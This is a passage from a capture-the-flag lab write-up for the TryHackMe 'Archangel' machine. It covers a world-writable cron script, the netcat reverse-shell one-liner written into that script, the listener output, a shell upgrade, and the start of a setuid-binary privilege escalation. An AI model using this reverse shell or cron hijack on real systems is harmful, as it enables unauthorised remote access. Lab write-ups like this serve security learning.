 .............................................

*/1 *   * * *   archangel /opt/helloworld.sh`


Checking out this file, I see it runs a basic echo script.


`www-data@ubuntu:/opt$ cat helloworld.sh 
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt`


Looking at the permissions, I find everyone has permission to write to this file


`www-data@ubuntu:/opt$ ls -la helloworld.sh 
-rwxrwxrwx 1 archangel archangel 66 Nov 20 10:35 helloworld.sh`


Since I can write to the file, I put in a reverse shell


`www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.8.75 1234 >/tmp/f" > helloworld.sh`


After setting up a netcat listener and waiting for a few moments, I get a connect back as archangel

`root@kali:~/tryhackme/archangle# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.8.75] from (UNKNOWN) [10.10.166.10] 40080
/bin/sh: 0: can't access tty; job control turned off

$ whoami
archangel`


Again, I import python3 into the shell

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'
archangel@ubuntu:~$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/tryhackme/archangle# stty raw -echo
root@kali:~/tryhackme/archangle# fg

archangel@ubuntu:~$`


Now, I can read the 3rd flag


(https://spy0x7.cf/assets/archangel/flag3.jpg)


## Privilege Escalation to root


Under the secrets folder, I find a file named backup. Looking into this file, I find it is an ELF executable owned by root but can be executed by anyone


`archangel@ubuntu:~/secret$ file backup 
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped
